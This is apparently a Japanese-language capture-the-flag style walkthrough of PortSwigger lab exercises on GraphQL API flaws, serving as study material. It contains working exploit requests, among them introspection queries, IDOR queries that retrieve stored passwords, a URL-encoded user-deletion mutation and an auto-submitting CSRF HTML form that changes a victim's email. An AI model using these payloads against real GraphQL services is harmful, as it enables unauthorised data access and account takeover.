

# GraphQL API vulnerability

- [GraphQL API vulnerability](#graphql-api-vulnerability)
  - [Accessing private GraphQL posts](#accessing-private-graphql-posts)
    - [Goal](#goal)
    - [Anayze \& Exploit](#anayze--exploit)
  - [Accidental exposure of private GraphQL fields](#accidental-exposure-of-private-graphql-fields)
    - [Goal](#goal-1)
    - [Analyze](#analyze)
    - [Exploit](#exploit)
  - [Finding a hidden GraphQL endpoint](#finding-a-hidden-graphql-endpoint)
    - [Goal](#goal-2)
    - [Analyze](#analyze-1)
    - [Exploit](#exploit-1)
  - [Bypassing GraphQL brute force protections](#bypassing-graphql-brute-force-protections)
    - [Goal](#goal-3)
    - [Analyze \& Exploit](#analyze--exploit)
  - [Performing CSRF exploits over GraphQL](#performing-csrf-exploits-over-graphql)
    - [Goal](#goal-4)
    - [Analyze](#analyze-2)
    - [Exploit](#exploit-2)

## Accessing private GraphQL posts

### Goal

パスワードが設定されたブログを見つけ、パスワードを入力する。

### Anayze & Exploit

`/`にリクエストを飛ばすと、`/graphql/v1`エンドポイントが見つかります。

`request例`
```graphql
query getBlogSummaries {
    getAllBlogPosts {
        image
        title
        summary
        id
    }
}
```

`response例`
```json
{
  "data": {
    "getAllBlogPosts": [
      {
        "image": "/image/blog/posts/7.jpg",
        "title": "Faking It! - InstaCam",
        "summary": "People are going to extreme lengths to pull the wool over their friends' eyes on Social Media. If you've ever clicked your way through family photos and the perfect summer and winter getaway pics of your friends on Instagram then...",
        "id": 5
      },
      {
        "image": "/image/blog/posts/20.jpg",
        "title": "The Digital Fairytale",
        "summary": "Once upon a time'",
        "id": 2
      },
      {
        "image": "/image/blog/posts/12.jpg",
        "title": "It's All Just A Click Away",
        "summary": "What I love most about Social Media is how it fills my days. Time just evaporates with every word I read, every video I watch and every pointless self-analyzing quiz I take part in. I used to tell people I...",
        "id": 1
      },
      {
        "image": "/image/blog/posts/32.jpg",
        "title": "A Guide to Online Dating",
        "summary": "Let's face it, it's a minefield out there. That's not even just a reference to dating, the planet right now is more or less a minefield. In a world where cats have their own YouTube channels and a celebrity can...",
        "id": 4
      }
    ]
  }
}
```

`id`が連番になっていそうです。(3が見当たらないので怪しさマックス)

`Introspection Query`で、内部を列挙しておきます。

<details>
<summary>introspection query</summary>

```graphql
query getBlogSummaries {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
            ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```
</details>

この結果から、

<details>

<summary>res</summary>

```json
"types": [
        {
          "kind": "OBJECT",
          "name": "BlogPost",
          "description": null,
          "fields": [
            {
              "name": "id",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Int",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            ....
            {
              "name": "isPrivate",
              "description": null,
              "args": [],
              "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                  "kind": "SCALAR",
                  "name": "Boolean",
                  "ofType": null
                }
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "postPassword",
              "description": null,
              "args": [],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ]
          ....
        }
]
```

</details>
`BlogPost type`には、`postPassword`fieldがあることがわかる。

また、queryに、`getBlogPost`, `getAllBlogPosts`というものがあり、`getBlogPost`はargsで`id`を受け付けてくれる点にも注目する。

コレにより、idを指定できる可能性があるためである。

getBlogPost queryを使っているところは、`View Post`を押下するとわかる。

`example request body`
```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\r\n\t\t\t\t\t\tpost\n        }\n    }","operationName":"getBlogPost","variables":{"id":5}}
```

variableに3を与え、`postPassword`も取得するとパスワードを得ることができそう

`exploit request`
```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\r\n\t\t\t\t\t\tpostPassword\n        }\n    }","operationName":"getBlogPost","variables":{"id":3}}
```

`res
```json
{
  "data": {
    "getBlogPost": {
      "image": "/image/blog/posts/43.jpg",
      "title": "New Year - New Friends",
      "author": "Fred Time",
      "date": "2023-10-01T19:22:11.832Z",
      "paragraphs": [
        "It's always the same. A new year begins and those people you thought were your friends go, well, a bit weird. Your nearest and dearest, between them, have a very long list of things they want to change about themselves. I liked them just the way they were, that's why we were friends in the first place. January only used to embrace two life changes. Cessation. Smoking and eating. Now everything has a 'uary' slapped on the end of it, January is the new 'Mis-uary'.",
        "? DRY JANUARY - does not reflect the current weather. This is where one undertakes a month of not drinking anything alcoholic. The friends who succeed in this are smug, patronizing and are heading for a 14 lbs weight loss as an added bonus. That is assuming they were a big drinker in the first place. The smuggest of all are the ones who only ever drank on high days and holidays, and there aren't any of those in January. Therefore, they are bound to succeed. Statistics show abstention leads to bingeing. Bring on March when they've put on 28 lbs. Who's smug now?",
        "? VEGANUARY - As much as I don't have a problem with becoming vegan as a life choice, I do object to the way my nice, mild-mannered, buddies become activists overnight. Suddenly they're not free for a nice Sunday afternoon stroll, they have plans to storm the nearest store and shout at people who so much as eye up a juicy steak. Social media is flooded with videos and memes, selfies of my mates snuggled up to livestock, making new friends who share their values and beliefs. I am reminded my friendship is hanging by a thread as I have not joined the V-Gang. I do not want to be around them on the 1st February when they revert to their carnivore ways."
      ],
      "postPassword": "gvv04ctqhz0p67r2ocrzqy0tt4mcmilo"
    }
  }
}
```

##  Accidental exposure of private GraphQL fields

### Goal

Administratorになり、charosを削除すればよいです。

### Analyze

`GraphQL`エンドポイントを発見したら、Introspection Queryがon担っていることを期待してぶち込みます。


結果を見てみると、Userの中にusername, passwordフィールドがあります。

また、`getUser`というqueryがあり、argsとして`id`を受け付けます。

### Exploit

`getUser` queryを使い、argsで探索を行えば良さそうです。

```graphql
query getBlogSummaries {
    getUser(id: 1) {
        id
				username
				password
    }
}
```

このようなqueryを発行することで、`administrator:a0ia9lywzgz4kalidss4`という認証情報が得られます。

この認証情報で、ログインしcarlosを消し去れば終わりです。

## Finding a hidden GraphQL endpoint
### Goal

carlosアカウントを削除する

### Analyze

まずこのラボではGraphQLエンドポイントがクロールしただけでは見つかりません。

```text
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
```

この5つのエンドポイントに対して適当に送ってみます。

`/api`に対して送信した時レスポンスが他の4つと違うことに気づきます。

```text
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 19

"Query not present"
```

Query not presentのためGraphQLエンドポイントがある可能性が高そうです。


上記結果より、GraphQLエンドポイントであることが確定したので`Introspection`を試していきます。


改行を含めるRegex Bypassのペイロードを試してみます。


Introspection Queryが発行されていることがわかります。


結果を見てみると、`getUesr`というqueryがあるので、コレを利用できそうです。


コレにより、`id = 1`がadministratorであることがわかります。


また、carlosは3であることがわかりました。



ただし、Userはpassowrdを持っていないためadministratorとしてログインし、ユーザを削除することはできないことがわかります。

面白そうなqueryがないか探していると、`deleteOrganizationUser`というmutationを発見しました。

これは`id`を受け入れるので、id=3のcarlosを指定してあげれば良さそうです。

### Exploit

`mutation%20%20%7bdeleteOrganizationUser(input%3a%20%7bid%3a3%7d)%7buser%20%7bid%7d%7d%7d`コレで終わり。

## Bypassing GraphQL brute force protections

### Goal
`carlos`でログインする

[brutoforce用のパスワード](https://portswigger.net/web-security/authentication/auth-lab-passwords)

### Analyze & Exploit

GraphQLエンドポイントは`/`にアクセスすればすぐ見つかります

Introspection Queryを試してみます。

また、ありがたいことに`IntrospectionQuery`は有効になっています。

結果を眺めていると、`login` mutationがあることがわかります。

mutationを組み立てると以下のようになります、

```graphQL
mutation {
  login(input: {username: , password: }){
    token
    success
  }
}
```

パスワードリストからうまいことクエリを組み立てる必要があるので、scriptを書いておきます。

[mutation.py](./mutation.py)

queryを空にして送ると、一つだけtrueが帰ってくるのでそれでログインします。


## Performing CSRF exploits over GraphQL

### Goal

自身のクレデンシャル`wiener:peter`

被害者アカウントで、電子メールを変更させレバ勝利


### Analyze

`wiener:peter`でログインしたときの`Set-Cookie`を見ると、CSRFから保護されてはいなさそうです。

```text
Set-Cookie: session=BcscBNXPzWlrQjuplEtPDlym0pHdAxVz; Secure; SameSite=None
```

電子メール変更の際のRequestを見ておきます。

```graphql
mutation changeEmail($input: ChangeEmailInput!) {
    changeEmail(input: $input) {
        email
    }
}
```

これを、POSTの`application/x-www-urlencoded`に変更してみます。


無事変更ができたので勝利です。

### Exploit

```html
<html>
  <body>
    <form action="https://0aa000b9048230e88080f3a2001c0084.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;email&#125;&#125;" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;ac&#64;ex&#46;com&quot;&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
 document.forms[0].submit(); 
document.forms[0].submit();
    </script>
  </body>
</html>
```


